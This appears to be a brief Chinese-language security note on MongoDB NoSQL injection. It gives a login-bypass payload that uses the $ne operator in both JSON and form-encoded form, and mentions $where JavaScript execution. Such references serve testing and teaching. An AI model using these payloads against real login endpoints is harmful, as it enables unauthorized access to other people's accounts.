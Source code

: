 正常提交JSON形式数据

```
{"username":"mycount","password":"mypassword"}
```

MongoDB支持不同的查询操作符，可进行绕过

```
{"username":"admin","password":{"$ne":1}}
```

> 当admin密码不为1时将绕过

表单形式

```
username=admin&password[$ne]=1
```

当使用$where查询符时，如果javascriptEnable为true，将可支持调用js函数